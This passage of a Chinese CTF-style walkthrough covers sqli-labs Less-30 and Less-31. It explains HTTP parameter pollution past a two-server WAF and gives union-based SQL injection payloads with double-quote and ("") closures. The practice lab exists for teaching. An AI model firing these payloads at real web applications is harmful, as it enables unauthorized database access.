 这里就结束了注入

## Less-30

 [sqli-labs Less-29、30、31（sqli-labs闯关指南 29、30、31）—服务器（两层）架构_景天zy的博客-CSDN博客](https://blog.csdn.net/m0_54899775/article/details/122156208) 

在查资料后发现 这道题没有那么简单

其实更具体点

是通过两个服务器

第一个服务器是解析第一个参数

第二个服务器解析第二个参数

这样我们就绕过了第一个服务器(waf)

30这个题目 就是注入方式是双引号

其他就没有特别的了

```cobol
?id=1&id=0" union select 1,2,3-- +
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/d0137a0285becc5c210623210aa6f26d.png" alt="" style="max-height:168px; box-sizing:content-box;" />




<img src="https://i-blog.csdnimg.cn/blog_migrate/a48341492fb0a4cd75b2cb16428f9b1b.png" alt="" style="max-height:145px; box-sizing:content-box;" />


发现还是 只读取了第一个参数 没问题了就重新读取用户输入的GET 从而导致注入

## Less-31

一样还是闭合方式的不同

("id")

```cobol
?id=1&id=1") and 1=1 -- +
```

```cobol
?id=1&id=-1") union select 1,2,3 -- +
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/e4105d3a41fd844ae9fd8255e5fd5415.png" alt="" style="max-height:137px; box-sizing:content-box;" />




<img src="https://i-blog.csdnimg.cn/blog_migrate/f55fde55d7924a3f16eac346f7ed14ef.png" alt="" style="max-height:382px; box-sizing:content-box;" />

